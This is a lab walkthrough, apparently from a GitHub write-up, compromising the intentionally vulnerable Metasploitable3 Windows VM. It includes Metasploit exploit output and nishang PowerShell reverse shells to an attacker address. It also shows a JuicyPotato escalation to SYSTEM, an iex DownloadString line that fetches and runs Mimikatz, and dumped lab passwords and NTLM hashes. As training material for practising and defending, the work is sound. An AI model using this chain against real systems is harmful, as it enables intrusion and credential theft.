

# Metasploitable3 (Windows Server 2008 R2)

The point of this excercise is to demonstrate how to use metasploit to search and exploit vulnerabilities in outdated software.
Most software installed on this machine is vulnerable to known exploits that you can find in metasploit, so if you want to get some practice with the metasploit framework, I highly recommend running some metasploit modules against metasploitable3!

There are likely multiple ways to become `SYSTEM`, but I will only be covering one way to do it.

## Active Ports

```bash
nmap -p21,22,80,1617,4848,5985,8020,8022,8027,8080,8282,8383,8484,8585,9200,49153,49154,49202,49203,49250 -sC -sV -oA nmap/windows-full-tcp-version 172.28.128.4
```

```none
Nmap scan report for 172.28.128.4
Host is up (0.00050s latency).

PORT      STATE SERVICE           VERSION
21/tcp    open  ftp               Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh               OpenSSH 7.1 (protocol 2.0)
| ssh-hostkey: 
|   2048 c3:86:77:0e:3e:99:68:a0:fb:9e:8e:17:88:04:1a:a2 (RSA)
|_  521 35:6f:6b:70:95:b5:3e:9f:f9:c8:ee:f8:06:28:7a:f7 (ECDSA)
80/tcp    open  http              Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
1617/tcp  open  java-rmi          Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @172.28.128.4:49202
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
4848/tcp  open  ssl/appserv-http?
|_ssl-date: 2020-08-30T19:28:37+00:00; 0s from scanner time.
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8020/tcp  open  http              Apache httpd
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html;charset=UTF-8).
8022/tcp  open  http              Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Site doesn't have a title (text/html;charset=UTF-8).
8027/tcp  open  unknown
8080/tcp  open  http              Sun GlassFish Open Source Edition  4.0
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: GlassFish Server - Server Running
8282/tcp  open  http              Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/8.0.33
8383/tcp  open  ssl/http          Apache httpd
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html;charset=UTF-8).
| ssl-cert: Subject: commonName=Desktop Central/organizationName=Zoho Corporation/stateOrProvinceName=CA/countryName=US
| Not valid before: 2010-09-08T12:24:44
|_Not valid after:  2020-09-05T12:24:44
|_ssl-date: TLS randomness does not represent time
8484/tcp  open  http              Jetty winstone-2.8
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(winstone-2.8)
|_http-title: Dashboard [Jenkins]
8585/tcp  open  http              Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
|_http-server-header: Apache/2.2.21 (Win64) PHP/5.3.10 DAV/2
|_http-title: WAMPSERVER Homepage
9200/tcp  open  wap-wsp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=UTF-8
|     Content-Length: 80
|     handler found for uri [/nice%20ports%2C/Tri%6Eity.txt%2ebak] and method [GET]
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: application/json; charset=UTF-8
|     Content-Length: 309
|     "status" : 200,
|     "name" : "Wolfsbane",
|     "version" : {
|     "number" : "1.1.1",
|     "build_hash" : "f1585f096d3f3985e73456debdc1a0745f512bbc",
|     "build_timestamp" : "2014-04-16T14:27:12Z",
|     "build_snapshot" : false,
|     "lucene_version" : "4.7"
|     "tagline" : "You Know, for Search"
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; charset=UTF-8
|     Content-Length: 0
|   RTSPRequest, SIPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain; charset=UTF-8
|_    Content-Length: 0
49153/tcp open  msrpc             Microsoft Windows RPC
49154/tcp open  msrpc             Microsoft Windows RPC
49202/tcp open  java-rmi          Java RMI
49203/tcp open  tcpwrapped
49250/tcp open  msrpc             Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9200-TCP:V=7.80%I=7%D=8/30%Time=5F4BFD44%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,18C,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\x20application/js
SF:on;\x20charset=UTF-8\r\nContent-Length:\x20309\r\n\r\n{\r\n\x20\x20\"st
SF:atus\"\x20:\x20200,\r\n\x20\x20\"name\"\x20:\x20\"Wolfsbane\",\r\n\x20\
SF:x20\"version\"\x20:\x20{\r\n\x20\x20\x20\x20\"number\"\x20:\x20\"1\.1\.
SF:1\",\r\n\x20\x20\x20\x20\"build_hash\"\x20:\x20\"f1585f096d3f3985e73456
SF:debdc1a0745f512bbc\",\r\n\x20\x20\x20\x20\"build_timestamp\"\x20:\x20\"
SF:2014-04-16T14:27:12Z\",\r\n\x20\x20\x20\x20\"build_snapshot\"\x20:\x20f
SF:alse,\r\n\x20\x20\x20\x20\"lucene_version\"\x20:\x20\"4\.7\"\r\n\x20\x2
SF:0},\r\n\x20\x20\"tagline\"\x20:\x20\"You\x20Know,\x20for\x20Search\"\r\
SF:n}\n")%r(HTTPOptions,4F,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReque
SF:st,4F,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20charse
SF:t=UTF-8\r\nContent-Length:\x200\r\n\r\n")%r(FourOhFourRequest,A9,"HTTP/
SF:1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charse
SF:t=UTF-8\r\nContent-Length:\x2080\r\n\r\nNo\x20handler\x20found\x20for\x
SF:20uri\x20\[/nice%20ports%2C/Tri%6Eity\.txt%2ebak\]\x20and\x20method\x20
SF:\[GET\]")%r(SIPOptions,4F,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\n");
MAC Address: 08:00:27:C2:F0:69 (Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 30 15:29:37 2020 -- 1 IP address (1 host up) scanned in 233.56 seconds
```

## Vulnerability Discovery

As seen in the `nmap` scan above, there are many outdated services running on this Windows Server 2008 R2 Metasploitable3 instance.
When there are so many outdated services running on a host like this, I like to do a quick check for known remote code execution vulnerabilities that exist in the software.

### Glassfish (Port 4848)

Vulnerable to directory traversal.
You will need to enable SSL for the directory traversal to work. 

```none
msf5 auxiliary(scanner/http/glassfish_traversal) > show options

Module options (auxiliary/scanner/http/glassfish_traversal):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   DEPTH     13                yes       Depth for Path Traversal
   FILEPATH  /windows/win.ini  yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    172.28.128.4      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     4848              yes       The target port (TCP)
   SSL       true              no        Negotiate SSL/TLS for outgoing connections
   THREADS   1                 yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf5 auxiliary(scanner/http/glassfish_traversal) > run

[+] File saved in: /home/kali/.msf4/loot/20200901135838_default_172.28.128.4_oracle.traversal_380931.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/glassfish_traversal) > loot

Loot
====

host          service  type              name              content     info  path
----          -------  ----              ----              -------     ----  ----
172.28.128.4           oracle.traversal  /windows/win.ini  text/plain        /home/kali/.msf4/loot/20200901135838_default_172.28.128.4_oracle.traversal_380931.txt

```

If an attacker wanted to exploit this further, they could lookup the file that contains the glassfish admin login credentials and then attempt to abuse the admin panel to get remote code execution on the host. However, since there were many other outdated services exposed on this machine, I figured there would be an easier way to own the system.

### JMXRMI (Port 1617)

Since this is a Metasploitable machine, I figured I might as well search for known exploits for `JMXRMI` in metasploit:

```none
msf5 > grep java search rmi
   14   auxiliary/gather/java_rmi_registry                                                  normal     No     Java RMI Registry Interfaces Enumeration
   39   auxiliary/scanner/misc/java_jmx_server                             2013-05-22       normal     No     Java JMX Server Insecure Endpoint Code Execution Scanner
   40   auxiliary/scanner/misc/java_rmi_server                             2011-10-15       normal     No     Java RMI Server Insecure Endpoint Code Execution Scanner
   100  exploit/linux/misc/jenkins_java_deserialize                        2015-11-18       excellent  Yes    Jenkins CLI RMI Java Deserialization Vulnerability
   102  exploit/multi/browser/java_rmi_connection_impl                     2010-03-31       excellent  No     Java RMIConnectionImpl Deserialization Privilege Escalation
   103  exploit/multi/browser/java_signed_applet                           1997-02-19       excellent  No     Java Signed Applet Social Engineering Code Execution
   119  exploit/multi/misc/java_jmx_server                                 2013-05-22       excellent  Yes    Java JMX Server Insecure Configuration Java Code Execution
   120  exploit/multi/misc/java_rmi_server                                 2011-10-15       excellent  No     Java RMI Server Insecure Default Configuration Java Code Execution
```

After poking around at some other services on the host, they appeared to be installing software from 2013, so it made sense to try the `exploit/multi/misc/java_jmx_server` remote code execution exploit:

```none
msf5 exploit(multi/misc/java_jmx_server) > show options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        172.28.128.4     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         1617             yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.254.145  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > exploit

[*] Started reverse TCP handler on 192.168.254.145:4444
[*] 172.28.128.4:1617 - Using URL: http://0.0.0.0:8080/RMfarTo
[*] 172.28.128.4:1617 - Local IP: http://192.168.254.145:8080/RMfarTo
[*] 172.28.128.4:1617 - Sending RMI Header...
[*] 172.28.128.4:1617 - Discovering the JMXRMI endpoint...
[+] 172.28.128.4:1617 - JMXRMI endpoint on 172.28.128.4:49198
[*] 172.28.128.4:1617 - Proceeding with handshake...
[+] 172.28.128.4:1617 - Handshake with JMX MBean server on 172.28.128.4:49198
[*] 172.28.128.4:1617 - Loading payload...
[*] 172.28.128.4:1617 - Replied to request for mlet
[*] 172.28.128.4:1617 - Replied to request for payload JAR
[*] 172.28.128.4:1617 - Executing payload...
[*] Sending stage (53944 bytes) to 192.168.254.145
[*] Meterpreter session 1 opened (192.168.254.145:4444 -> 192.168.254.145:34070) at 2020-09-01 14:06:37 -0400

meterpreter > getuid
Server username: LOCAL SERVICE
```

At this point, my goal was to escalate my privileges from `LOCAL SERVICE` to `LOCAL SYSTEM`.


## Privilege Escalation

From a meterpreter session, I normally like to escalate my privileges to a powershell session with the [nishang](https://github.com/samratashok/nishang) post exploitation framework since I find it easier to navigate Windows systems with powershell rather than dos. If you are running kali linux, you can install it with the following command:

```bash
sudo apt install nishang
```

You should be able to find the nishang post exploitation framework under `/usr/share/nishang`.

I normally modify and use the `Invoke-PowerShellTcp.ps1` script from nishang to get a powershell reverse shell. I appended the following line to `Invoke-PowerShellTcp.ps1` so that executing the powershell script would invoke it:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 172.28.128.1 -Port 2001
```

Next, I uploaded the script via my meterpreter session:

```none
meterpreter > upload /home/kali/dc902/metasploitable3/practice/windows/privesc/Invoke-PowerShellTcp.ps1
[*] uploading  : /home/kali/dc902/metasploitable3/practice/windows/privesc/Invoke-PowerShellTcp.ps1 -> Invoke-PowerShellTcp.ps1
[*] Uploaded -1.00 B of 4.30 KiB (-0.02%): /home/kali/dc902/metasploitable3/practice/windows/privesc/Invoke-PowerShellTcp.ps1 -> Invoke-PowerShellTcp.ps1
[*] uploaded   : /home/kali/dc902/metasploitable3/practice/windows/privesc/Invoke-PowerShellTcp.ps1 -> Invoke-PowerShellTcp.ps1
```

I then executed the script by passing the script as an argument to the powershell command:

```none
meterpreter > execute -f "powershell .\Invoke-PowerShellTcp.ps1"
Process  created.
```

Which connected back to my netcat listener:

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 172.28.128.4.
Ncat: Connection from 172.28.128.4:49329.
Windows PowerShell running as user LOCAL SERVICE on METASPLOITABLE3
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files\jmx>whoami
nt authority\local service
```

At this point, I was running as the `LOCAL SERVICE` user which can normally be abused to escalate privileges to `SYSTEM`.

```none
PS C:\Windows\Temp\r0kit> whoami /all

USER INFORMATION
----------------

User Name                  SID
========================== ========
nt authority\local service S-1-5-19


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeSystemtimePrivilege         Change the system time                    Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Here, the only interesting group we are currently part of is `NT AUTHORITY\SERVICE` because that group, in combination with the `SeImpersonatePrivilege`, and the fact that this server's operating system is `Windows Server 2008 R2` can be abused to gain `SYSTEM` level access to the machine via the [JuicyPotato](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato) exploit.

I went ahead and downloaded the JuicyPotato exploit code from [GitHub](https://github.com/ohpe/juicy-potato) and compiled it on my windows development machine with [Visual Studio](https://visualstudio.microsoft.com/):



After transferring the JuicyPotato exploit to my kali machine, I hosted the exploit on an HTTP server so I could get the metasploitable3 machine to download it.

On the metasploitable3 machine, I used powershell to download the exploit hosted on my kali machine:

```powershell
(New-Object System.Net.WebClient).DownloadFile("http://172.28.128.1:8000/JuicyPotato.exe","C:\Windows\Temp\r0kit\JuicyPotato.exe")
```

```none
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.28.128.4 - - [02/Sep/2020 13:04:42] "GET /JuicyPotato.exe HTTP/1.1" 200 -
```

Then, I copied the `Invoke-PowerShellTcp.ps1` script from the default directory where it was originally uploaded via the meterpreter session to the current working directory JuicyPotato.exe was located at. This was a minor, but important detail that was necessary to get the privilege escalation exploit to work.

```none
PS C:\Windows\Temp\r0kit> cp "C:\Program Files\jmx\Invoke-PowerShellTcp.ps1" .
```

Since the JuicyPotato exploit invokes an out-of-band process from the current powershell session, I figured I could invoke the reverse powershell script with `powershell.exe` to get a reverse powershell session with `SYSTEM` privileges:

```none
PS C:\Windows\Temp\r0kit> .\JuicyPotato.exe -l 1337 -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "C:\Windows\Temp\r0kit\Invoke-PowerShellTcp.ps1" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```none
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 172.28.128.4.
Ncat: Connection from 172.28.128.4:49415.
Windows PowerShell running as user METASPLOITABLE3$ on METASPLOITABLE3
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
nt authority\system
```

At this point, I compromised the entire system. The next step was to harvest NTML hashes and passwords.

### Gathering NTLM Hashes and Passwords

After gaining `SYSTEM` level access to the host, I dump cached credentials from the SAM process so that I can use the NTLM hashes to pivot through networks and reuse passwords.

Note that we need `SYSTEM` level access to dump the NTLM hashes and passwords from the SAM process because without them, this is what happens: 

```none
PS C:\Windows\Temp\r0kit> whoami
nt authority\local service
PS C:\Windows\Temp\r0kit> iex(New-Object System.Net.WebClient).DownloadString("http://172.28.128.1:8000/Invoke-Mimikatz.ps1")

  .#####.   mimikatz 2.1.1 (x64) built on Sep 15 2017 17:58:17
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(powershell) # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061

mimikatz(powershell) # exit
Bye!
```

With `SYSTEM` level access, I was able to invoke `mimikatz` with the `nishang` post exploitation framework to gather the credentials of users that have previously logged into the system:

```none
PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32>iex(New-Object System.Net.WebClient).DownloadString("http://172.28.128.1:8000/Invoke-Mimikatz.ps1")

  .#####.   mimikatz 2.1.1 (x64) built on Sep 15 2017 17:58:17
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 689354 (00000000:000a84ca)
Session           : Interactive from 0
User Name         : boba_fett
Domain            : METASPLOITABLE3
Logon Server      : METASPLOITABLE3
Logon Time        : 9/1/2020 12:38:02 PM
SID               : S-1-5-21-13609554-1851907898-2084865544-1014
        msv :
         [00000003] Primary
         * Username : boba_fett
         * Domain   : METASPLOITABLE3
         * LM       : 89c23eda848454f62d7e56f026ce3b71
         * NTLM     : d60f9a4859da4feadaf160e97d200dc9
         * SHA1     : 92570ca437898c4456928679fac91dc523371d16
        tspkg :
         * Username : boba_fett
         * Domain   : METASPLOITABLE3
         * Password : mandalorian1
        wdigest :
         * Username : boba_fett
         * Domain   : METASPLOITABLE3
         * Password : mandalorian1
        kerberos :
         * Username : boba_fett
         * Domain   : METASPLOITABLE3
         * Password : mandalorian1
        ssp :
        credman :

Authentication Id : 0 ; 105010 (00000000:00019a32)
Session           : Service from 0
User Name         : sshd_server
Domain            : METASPLOITABLE3
Logon Server      : METASPLOITABLE3
Logon Time        : 9/1/2020 12:33:28 PM
SID               : S-1-5-21-13609554-1851907898-2084865544-1002
        msv :
         [00000003] Primary
         * Username : sshd_server
         * Domain   : METASPLOITABLE3
         * LM       : e501ddc244ad2c14829b15382fe04c64
         * NTLM     : 8d0a16cfc061c3359db455d00ec27035
         * SHA1     : 94bd2df8ae5cadbbb5757c3be01dd40c27f9362f
        tspkg :
         * Username : sshd_server
         * Domain   : METASPLOITABLE3
         * Password : D@rj33l1ng
        wdigest :
         * Username : sshd_server
         * Domain   : METASPLOITABLE3
         * Password : D@rj33l1ng
        kerberos :
         * Username : sshd_server
         * Domain   : METASPLOITABLE3
         * Password : D@rj33l1ng
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : METASPLOITABLE3$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 9/1/2020 12:33:19 PM
SID               : S-1-5-20
        msv :
        tspkg :
        wdigest :
         * Username : METASPLOITABLE3$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : metasploitable3$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 620313 (00000000:00097719)
Session           : Interactive from 0
User Name         : jarjar_binks
Domain            : METASPLOITABLE3
Logon Server      : METASPLOITABLE3
Logon Time        : 9/1/2020 12:37:08 PM
SID               : S-1-5-21-13609554-1851907898-2084865544-1012
        msv :
         [00000003] Primary
         * Username : jarjar_binks
         * Domain   : METASPLOITABLE3
         * LM       : 6b87eb039d6e10424c1dd04e42f7a3bd
         * NTLM     : ec1dcd52077e75aef4a1930b0917c4d4
         * SHA1     : ac6a23773e9489dd4a018cd7b025d8c5e1f78056
        tspkg :
         * Username : jarjar_binks
         * Domain   : METASPLOITABLE3
         * Password : mesah_p@ssw0rd
        wdigest :
         * Username : jarjar_binks
         * Domain   : METASPLOITABLE3
         * Password : mesah_p@ssw0rd
        kerberos :
         * Username : jarjar_binks
         * Domain   : METASPLOITABLE3
         * Password : mesah_p@ssw0rd
        ssp :
        credman :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 9/1/2020 12:33:38 PM
SID               : S-1-5-17
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 9/1/2020 12:33:19 PM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 20721 (00000000:000050f1)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 9/1/2020 7:33:17 PM
SID               :
        msv :
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : METASPLOITABLE3$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 9/1/2020 7:33:17 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : METASPLOITABLE3$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : metasploitable3$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :

mimikatz(powershell) # exit
Bye!
```

## Countermeasures

* Keep all outdated software updated with the latest security patches (both applications and operating system).
* Upgrade to the latest version of Windows Server.
